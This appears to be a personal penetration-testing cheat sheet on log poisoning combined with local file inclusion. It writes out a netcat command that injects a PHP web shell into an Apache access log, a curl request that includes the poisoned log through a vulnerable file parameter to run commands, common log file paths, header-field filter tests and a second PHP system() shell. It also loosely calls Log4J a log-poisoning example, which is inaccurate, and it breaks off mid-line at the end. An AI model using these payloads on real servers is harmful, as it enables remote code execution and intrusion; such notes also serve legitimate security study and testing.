 # Log Poisoning

## Introduction

Log Poisoning is a type of [[File-Inclusion-And-Directory-Traversal]] related attack that seeks to inject the log file of a server with malicious request that include code to then can then be used in an LFI payload. The infamous [[Log4J]] exploit is the famous recent example of Log Poisoning that leads to Remote Code Execution. Simple example being:
```bash
nc -nv $poor_web_server_ip 80
(UNKNOWN) [$poor_web_server_ip] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

## File Inclusion Code Execution

Vulnerable parameter `?file=` and  `&cmd`

```bash
curl "http://$poor_web_server/menu.php?file=c:\xampp\apache\logs\access.log&cmd=dir"
```

## Log File Locations:

To perform log poisoning we require a log file to poison. 

Linux
```bash
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access.log
# FreeBSD
/var/log/httpd-access.log
```
Windows
```
C:\xampp\apache\logs\access.log
```

## Located Controllable Log Fields

Use Burpsuite ([[Burpsuite-Helpsheet]]) or combination of curl([[Curl-Cheatsheet]]) modifying the various possible fields contained in the log. 

```
# Test Symbol filtering 
User-Agent: Add your testing message here" 
```
Test Symbol filtering most importantly the quotation escaping like the above.
```
# From: !@#$%$^&*()"':;<>,.?/`~ 
```

Controlling a modifiable field then leads to test whether the server or website language can execute code from this log file.  Beware of server side language handling the code. Notably if you see (for example `<?php`) script tags and the following executable code then there this code is not being passed to a function  that can execute the code.  

```php
<?php system($_REQUEST['cmd']); ?>
```

`url:/path/to/log/logname.log&cmd=